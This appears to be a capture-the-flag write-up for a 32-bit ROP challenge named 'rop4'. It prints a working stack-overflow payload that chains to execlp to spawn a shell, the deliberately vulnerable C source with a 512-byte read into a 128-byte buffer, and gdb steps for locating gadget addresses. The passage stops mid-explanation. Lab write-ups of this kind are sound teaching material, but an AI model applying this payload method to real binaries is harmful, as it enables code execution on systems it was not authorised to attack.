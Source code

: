 ```
cat <(python -c 'print "A"*140+"\xb0\x3a\x05\x08"+   "A"*4  +"\x4f\xbf\x0c\x08"*2+"\x50\xd8\xff\xff"+"\xa1\x97\x0c\x08"') - | ./rop4
```
And the problem source:

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
char exec_string[20];
void exec_the_string() {
    execlp(exec_string, exec_string, NULL);
}
void call_me_with_cafebabe(int cafebabe) {
    if (cafebabe == 0xcafebabe) {
        strcpy(exec_string, "/sh");
    }
}
void call_me_with_two_args(int deadbeef, int cafebabe) {
    if (cafebabe == 0xcafebabe && deadbeef == 0xdeadbeef) {
        strcpy(exec_string, "/bin");
    }
}
void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}
int main(int argc, char** argv) {
    exec_string[0] = '\0';

    vulnerable_function();
}
```

So, probably not how you were suppose to solve it (based on the source code), but it works. With ROP4, were not given `<system>`, but we are given `<execlp>`. execlp takes 3 parameters: `char *file, char *arg, NULL`

Our goal then is to run this (not really though, as you will learn later): `execlp("/bin/sh","/bin/sh",NULL); `

Lets get the addresses of `<exclp>`, `"/bin/sh"`, `"sh"`, and `NULL` using gdb:

```
     (gdb) break main
     (gdb) run
     (gdb) print execlp
     $1 = {<text variable, no debug info>} 0x8053ab0 <execlp>
     (gdb) find &execlp,+999999999,"/bin/sh"
     0x80cbf4f
     (gdb) print &null
     $3 = (<data variable, no debug info> *) 0x80c97a1
     (gdb) x/s 0x80c97a1
     0x80c97a1 <null>:      "(null)"
```
